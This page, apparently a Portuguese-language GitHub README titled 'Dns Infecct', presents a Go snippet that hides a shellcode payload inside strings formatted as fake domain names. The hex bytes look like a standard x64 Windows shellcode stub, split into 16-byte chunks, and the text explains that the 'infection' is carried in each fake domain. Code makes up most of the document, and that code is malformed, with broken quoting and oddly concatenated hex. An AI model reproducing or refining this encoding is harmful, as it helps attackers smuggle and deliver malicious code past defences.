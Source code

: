 ## Dns Infecct - trollcojk

### INFORMAÇÕES

_ele é feito com strings paths de hexadecimal 16 bytes, payload está embutida._
```
func (payload * Path) new() {
	payload.path = []string{"1.1.1.0 0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"
    "1.1.1.1","0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"
    "1.1.1.2","0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"
    "1.1.1.3","0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"
    "1.1.1.4","0x010xc10xe20xed0x520x410x510x480x8b0x520x200x8b0x420x3c0x48.1.com"
    "1.1.1.5","0x010xd00x660x810x780x180x0b0x020x0f0x850x720x000x000x000x8b.1.com"
    "1.1.1.6","0x800x880x000x000x000x480x850xc00x740x670x480x010xd00x500x8b.1.com"
    "1.1.1.7","0x480x180x440x8b0x400x200x490x010xd00xe30x560x480xff0xc90x41.1.com"
    "1.1.1.8","0x8b0x340x880x480x010xd60x4d0x310xc90x480x310xc00xac0x410xc1.1.com"
    "1.1.1.9","0xc90x0d0x410x010xc10x380xe00x750xf10x4c0x030x4c0x240x080x45.1.com"
    "1.1.1.10","0x390xd10x750xd80x580x440x8b0x400x240x490x010xd00x660x410x8b.1.com"
    "1.1.1.11","0x0c0x480x440x8b0x400x1c0x490x010xd00x410x8b0x040x880x480x01.1.com"
    "1.1.1.12","0xd00x410x580x410x580x5e0x590x5a0x410x580x410x590x410x5a0x48.1.com"
    "1.1.1.13","0x830xec0x200x410x520xff0xe00x580x410x590x5a0x480x8b0x120xe9.1.com"
	 }
```
_aquele esta os string paths, pode notar que eles são tipo um web-site, o infect tá em cada um._
_quase não fiz muito esforço, por que o que tinha nos string já tava as funções._
